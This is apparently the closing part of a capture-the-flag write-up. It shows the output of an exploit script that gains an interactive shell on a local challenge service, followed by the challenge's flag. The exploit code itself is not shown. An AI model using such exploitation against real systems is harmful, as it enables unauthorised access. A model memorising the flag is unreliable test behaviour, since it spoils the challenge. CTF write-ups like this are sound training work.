 ```bash
$ python sol.py 
[+] Opening connection to localhost on port 4444: Done
[*] Switching to interactive mode
$ ls
/bin/sh: 1: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDls: not found
$ whoami
user
```

## Flag

`polycyber{r3b3l_c0mm_pr0gr4m_0wn3d}`